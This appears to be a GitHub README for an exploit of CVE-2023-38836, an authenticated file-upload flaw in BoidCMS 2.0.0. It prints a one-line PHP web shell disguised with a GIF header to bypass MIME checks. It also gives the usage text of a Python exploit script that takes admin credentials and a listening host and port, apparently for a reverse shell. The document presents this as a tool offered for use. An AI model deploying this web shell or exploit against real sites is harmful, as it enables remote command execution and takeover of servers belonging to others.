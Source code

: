 # CVE-2023-38836 Exploit
File Upload vulnerability in BoidCMS v.2.0.0 allows an authenticated attacker to upload a file with dangerous type (CWE-434).
<br/>
To exploit, an attacker could add a GIF header to bypass MIME type checks.
```php
GIF89a;
<?php system($_GET["cmd"]); ?>
```

## Usage
```
usage: CVE-2023-38836.py [-h] [-u URL] [-U USER] [-P PASSWD] [-l LHOST] [-p LPORT]

Exploit for CVE-2023-38836

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     website url
  -U USER, --user USER  admin username
  -P PASSWD, --passwd PASSWD
                        admin password
  -l LHOST, --lhost LHOST
                        listening host
  -p LPORT, --lport LPORT
                        listening port
```

![](img.png)
